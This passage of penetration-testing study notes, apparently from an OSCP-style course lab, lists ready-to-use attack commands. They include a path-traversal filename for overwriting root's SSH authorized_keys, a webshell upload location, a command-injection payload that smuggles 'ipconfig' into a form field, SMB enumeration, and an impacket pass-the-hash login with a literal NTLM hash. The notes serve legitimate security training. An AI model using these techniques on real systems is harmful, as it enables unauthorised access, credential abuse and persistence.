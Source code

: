 </aside>

<aside>
💡 Non executable - Could try to overwrite ssh keys:
In burp: filename=../../../../../../../root/.ssh/authorized_keys

</aside>

<aside>
💡 Good place to upload webshells: C:\xampp\htdocs\html-php-backdoor.php
We can check this path via phpinfo.php on DOCUMENT_ROOT
`curl http://192.168.120.132:45332/phpinfo.php | grep 'DOCUMENT_ROOT' | html2text`

</aside>

### OS command injection

<aside>
💡 If we have something that looks like a direct command on the os - We can try to abuse it with URL encoded ‘;’ / ‘&&’ / ‘&’.
Example from course:

curl -X POST --data 'Archive=git%3Bipconfig'
[http://192.168.50.189:8000/archive](http://192.168.50.189:8000/archive)

</aside>

## SMB

<aside>
💡 Don’t forget to try to check for write permission - for phishing and webshells!

</aside>

```jsx
smbclient -L 192.168.162.122 -N
```

```jsx
smbclient -L //192.168.195.248/ -U damon -W relia.com
smbclient -L //10.10.1.200/ -U oscp/wade
```

```jsx
smbclient //172.16.229.11/TEMP -U joe -W medtech.com
```

```jsx
crackmapexec smb 192.168.226.172 -u guest -p "" --rid-brute
```

```jsx
enum4linux -a ip
```

```jsx
impacket-smbclient -hashes 00000000000000000000000000000000:e728ecbadfb02f51ce8eed753f3ff3fd celia.almeda@10.10.114.140
```
